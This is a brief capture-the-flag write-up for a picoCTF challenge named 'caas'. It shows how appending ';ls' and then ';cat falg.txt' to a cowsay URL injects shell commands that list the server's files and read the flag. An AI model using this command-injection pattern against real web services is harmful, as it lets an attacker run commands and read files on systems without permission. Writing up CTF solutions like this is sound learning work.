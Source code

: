 # caas

## Description
This write up will show how to solve the CTF for "caas"

## Solution
With cowsay, you can include a message between `{}`.</br>
Adding `;ls` after the the message, f.e. `/cowsay/{test};ls`, will show the following list:</br>
```
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
Now we can use the `cat` command to read the falg.txt file, assuming this will be the flag:</br>
`https://caas.mars.picoctf.net/cowsay/%7Btest%7D;cat%20falg.txt`</br>
This will give the flag indeed.
